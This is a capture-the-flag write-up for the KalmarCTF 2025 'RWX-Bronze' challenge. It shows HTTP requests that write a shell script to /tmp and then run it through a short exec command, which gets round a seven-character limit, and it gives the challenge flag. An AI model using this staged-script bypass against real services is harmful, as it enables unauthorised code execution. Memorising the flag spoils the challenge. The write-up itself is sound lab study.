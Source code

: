 ```yaml
---
title: RWX-Bronze
date: 2025-03-10T02:48:43+03:00
description: Writeup for RWX-Bronze [KalmarCTF 2025]
type: writeup
author: h3pha
tags:
- misc
draft: false
---
```

___

## Challenge Description

We give you file read, file write and code execution. But can you get the flag? Let's start out gently.

NOTE: If you get a 404 error, try using one of the endpoints described in the handout!

## Intuition

The challenge lets us execute commands of length 7, so we cannot execute `/would` with the necessary argument. My first attempt was to create a script file and run it with a command.

## Solution

Wrote the script into the `/tmp` directory:
```
POST /write?filename=/tmp/a HTTP/2

#!/bin/sh
/would you be so kind to provide me with a flag
```

Executed the script: `sh /*/a`
```
GET /exec?cmd=sh%20/*/a HTTP/2 
```

### Flag

`kalmar{ok_you_demonstrated_your_rwx_abilities_but_let_us_put_you_to_the_test_for_real_now}`